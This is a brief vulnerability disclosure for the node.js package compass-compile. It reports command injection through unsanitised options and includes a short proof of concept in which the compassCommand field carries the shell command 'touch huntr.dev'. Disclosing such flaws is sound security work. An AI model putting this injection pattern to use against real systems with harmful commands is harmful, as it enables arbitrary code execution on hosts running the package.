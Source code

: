 # Overview
`compass-compile` is a Compass wrapper for node.js, this package aisre vulnerable to Command Injection, the options argument can be controlled by users without any sanitization.

# Proof of Concept
```
var Root = require('compass-compile');
var root = new Root();
var options = {
  compassCommand:"touch huntr.dev"
}
root.compile(options);
```